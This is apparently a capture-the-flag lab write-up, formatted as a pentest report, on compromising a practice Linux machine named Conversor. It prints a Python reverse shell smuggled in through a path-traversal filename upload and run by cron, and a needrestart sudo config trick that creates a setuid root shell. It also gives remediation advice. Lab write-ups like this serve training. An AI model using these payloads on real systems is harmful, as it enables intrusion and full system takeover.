

## Executive Summary

This assessment identified multiple critical vulnerabilities in the **Conversor** application (10.10.11.92). The combination of an **Arbitrary File Write** vulnerability in the web application and insecure system configurations allowed for a complete system compromise.

The attack chain began with the exploitation of a logic flaw in the file upload mechanism, leading to **Remote Code Execution (RCE)** as the `www-data` user. Subsequent lateral movement was achieved through credential harvesting from a local database. Finally, a misconfiguration in the `sudo` permissions for the `needrestart` utility facilitated privilege escalation to `root`.

| Category | Difficulty | User Flag | Root Flag |
|----------|------------|-----------|-----------|
| Linux Machine | Easy | `8451df**************************` | `e161d1**************************` |

---

## Attack Chain Visualization



---

## Vulnerability Details

### 1. Arbitrary File Write leading to RCE

**Severity:** Critical (CVSS 8.8)

**Description:**
The `/convert` endpoint fails to properly sanitize the filename argument of uploaded files. This allows an authenticated user to traverse directories and write files to arbitrary locations on the server.

**Exploitation:**
We can write a malicious Python script to the `/var/www/conversor.htb/scripts/` directory. A system cron job executes all scripts in this folder, granting us RCE.

1.  Authenticate to the application.
2.  Send a POST request to `/convert` with a malicious Python script.
3.  Set the filename to relative path: `../scripts/shell.py`.
4.  Wait for the cron job to execute the script.

```http
POST /convert HTTP/1.1
Content-Disposition: form-data; name="file"; filename="../scripts/shell.py"

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

---

### 2. Cleartext Credentials in Database

**Severity:** Medium (CVSS 5.5)

**Description:**
The application stores user passwords as unsalted MD5 hashes in the SQLite database `users.db`.

**Impact:**
An attacker with local read access can recover cleartext passwords. We found the password for user `fismathack`, allowing lateral movement.

---

### 3. Insecure Privilege Escalation (Needrestart)

**Severity:** High (CVSS 7.8)

**Description:**
The `sudo` configuration allows `fismathack` to execute `/usr/sbin/needrestart` without a password. Crucially, `needrestart` allows specifying a custom configuration file via the `-c` flag, which is parsed as Perl code by the root process.

**Proof of Concept:**

```bash
# Create malicious config
cat > exploit.conf <<EOF
\$nrconf{restart} = 'a';
use strict;
use warnings;
system('cp /bin/bash /tmp/rootsh; chmod 4777 /tmp/rootsh');
EOF

# Execute with sudo
sudo /usr/sbin/needrestart -c exploit.conf

# Access Root Shell
/tmp/rootsh -p
```

---

## Remediation Recommendations

1.  **Input Sanitation:** Implement strict validation of filenames in the `convert` function. Use `werkzeug.utils.secure_filename` to strip directory traversal characters.
2.  **Secure Storage:** Migrate from MD5 to a secure hashing algorithm like Argon2 or bcrypt for password storage.
3.  **Principle of Least Privilege:** Restrict `sudo` permissions. Prevent the use of command-line flags that allow configuration overrides for `needrestart`.

---

**Artifacts Redacted for Public Release.**
*User Flag:* `8451df**************************`
*Root Flag:* `e161d1**************************`
